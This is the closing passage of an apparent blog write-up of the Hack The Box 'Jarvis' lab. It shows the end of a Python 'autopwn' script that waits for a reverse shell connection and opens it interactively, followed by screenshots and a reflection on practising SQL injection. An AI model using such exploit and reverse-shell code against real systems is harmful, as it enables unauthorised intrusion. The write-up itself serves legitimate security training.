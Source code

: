 ```python
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

```bash
./bin/pip3 autopwn.py
```

<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_71.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> Another excellent machine from **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** where I was able to practice **SQLi** again, which always proves to be a wonderful technique for exploiting vulnerabilities found on the target machine. With each lab on this excellent platform, I'm refining my skills, but at the same time, I'm realizing that the field of **Information security** is **so vast** that I must always maintain this energy and desire to continue learning. I'm going to kill the **Jarvis** box and move on to the next lab.

<br /><br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_72.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
